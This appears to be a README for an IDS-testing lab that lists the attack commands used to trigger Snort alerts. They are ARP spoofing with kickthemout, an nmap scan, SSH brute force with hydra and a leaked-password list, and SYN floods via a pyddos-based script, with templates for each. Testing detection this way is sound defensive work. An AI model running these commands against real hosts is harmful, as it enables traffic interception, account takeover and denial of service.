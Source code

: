 # attacks
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **kickthemout**: Tool to perform and ARP spoofing on the victim. Link [here](https://github.com/k4m4/kickthemout).

```
 sudo python3 kickthemout.py --target 192.168.1.10

 sudo python3 kickthemout.py --target <ip>
``` 

- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```

- **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```

 - **syn_flood**: Tool to be used for the Syn Flood Attack based on the project [pyddos](https://github.com/mach1el/pyddos) by [mach1el](https://github.com/mach1el)..
 
```
sudo python main.py run -atk syn -d 127.0.0.1 -p 4 -s 127.0.0.1 -t 50

sudo python main.py -atk <attack to be used> -d <ip> -p <port> -s <source address> -t <number of threads>
```
  
 - **syn_flood**: Tool to be used for the Syn Flood Attack based on the project [pyddos](https://github.com/mach1el/pyddos) by [mach1el](https://github.com/mach1el)..
 
```
sudo python syn_flood.py -d 127.0.0.1 -p 80 -s 127.0.0.1 -t 50

sudo python syn_flood.py -d <ip> -p <port> -s <source address> -t <number of threads>
```
 
 
